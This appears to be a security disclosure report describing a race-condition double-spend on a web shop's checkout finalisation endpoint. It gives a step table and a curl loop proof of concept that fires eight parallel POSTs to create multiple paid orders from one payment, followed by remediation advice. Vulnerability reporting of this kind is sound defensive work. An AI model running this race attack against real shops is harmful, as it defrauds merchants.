


# Description

Race condition / double-spend (CWE-362) on the checkout finalisation endpoint `POST /shop/payment/complete/`. After the payment form is authorised at `/shop/payment/`, the loading page auto-POSTs to `/shop/payment/complete/` to finalise the order. The operation is non-atomic: when several finalisation requests arrive in parallel on the same session, the server creates several distinct paid orders before the cart/payment state is invalidated, while the wallet is debited only once.

A buyer obtains multiple paid orders from a single checkout session. Each parallel request independently calls the banking backend for payment; the exact financial outcome depends on the bank's handling of concurrent debits, but multiple COMPLETED orders are created from one `payment_info` session.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Add an affordable paid product; balance `1.00 NE`, price `0.99 NE`. | Cart ready. |
| 2 | Authorise the payment once (`302 → /shop/payment/loading/`). | Checkout ready to finalise. |
| 3 | Fire N parallel `POST /shop/payment/complete/`. | N distinct orders created; debit behaviour depends on bank-side concurrency handling. |

# PoC

```bash
for i in $(seq 1 8); do
  curl -sk -i -b session.txt -X POST "http://<TARGET>/shop/payment/complete/" \
    -H "Content-Type: application/json" -H "X-CSRFToken: <csrftoken>" --data-binary '{}' &
done; wait
```

Every request returned `302` to a **different** order id:

```
Location: /shop/orders/6bb93547-…/
Location: /shop/orders/7ce3cf9f-…/
… (8 distinct order IDs)
```



Order history shows 8× `collision 2 ball`:


The wallet balance suggests the bank did not debit all eight orders at full price (observed `1.00 → 0.01 NE`), indicating the TOCTOU window allowed multiple orders to pass the balance pre-check before any debit executed:



# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | None directly. |
| Integrity | Multiple COMPLETED orders created from one checkout session; order history / accounting desynchronised with actual bank debits. |
| Availability | None directly. |

Overall severity: **High** — direct financial/marketplace-integrity impact; scales with product value and balance.

# Remediation

1. **Make `/shop/payment/complete/` idempotent** — one pending checkout yields at most one order.
2. **Lock the pending checkout/cart row** while finalising.
3. **Re-check balance and create the order inside one DB transaction**; invalidate the pending payment atomically.
4. **Add a unique constraint** binding one payment attempt to one order.

# Author
Hackrapovic
